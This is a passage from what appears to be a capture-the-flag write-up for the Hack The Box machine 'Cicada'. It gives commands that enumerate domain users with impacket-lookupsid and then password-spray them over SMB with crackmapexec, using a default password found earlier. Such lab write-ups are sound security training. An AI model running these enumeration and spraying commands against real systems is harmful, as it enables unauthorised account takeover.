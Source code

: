 ```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > users.txt
```

![grepuser](docs/grepuser%20stap%205.png)

---

### Password Spray

Now that we have the users saved in `users.txt`, it is a bit repetitive to apply the password we found to every user to see if it works. That's why we are going to **password spray** with `crackmapexec`.

Let's try to log into cicada.htb with the list of users and the default password that we found.

```bash
crackmapexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![passwordspray](docs/passwordspray%20stap%206.png)
